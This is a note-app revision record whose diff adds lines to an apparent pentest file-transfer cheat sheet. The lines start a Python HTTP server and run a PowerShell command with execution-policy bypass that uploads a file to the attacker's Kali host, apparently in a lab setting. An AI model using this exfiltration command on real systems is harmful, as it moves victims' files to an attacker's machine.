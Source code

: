 id: 4211ec9fd9cc44a0ac1dc267490eb9d2
parent_id: afe1f2cb958448a198c6ad12e1cf1149
item_type: 1
item_id: 6542c907ee3d4b659b0fd7588c5dbe48
item_updated_time: 1642575179958
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"er 8000 \"],[1,\"\\\n> \\\n> sudo python3 -m http.server 8001 \"],[0,\"\\\n\\\nUpload\"]],\"start1\":149,\"start2\":149,\"length1\":16,\"length2\":55},{\"diffs\":[[0,\"loads/\\\n\\\n\"],[1,\"> powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile '&lt;filename&gt;'\\\n\\\n\"],[0,\"https://\"]],\"start1\":514,\"start2\":514,\"length1\":16,\"length2\":183}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-19T06:55:39.250Z
created_time: 2022-01-19T06:55:39.250Z
type_: 13
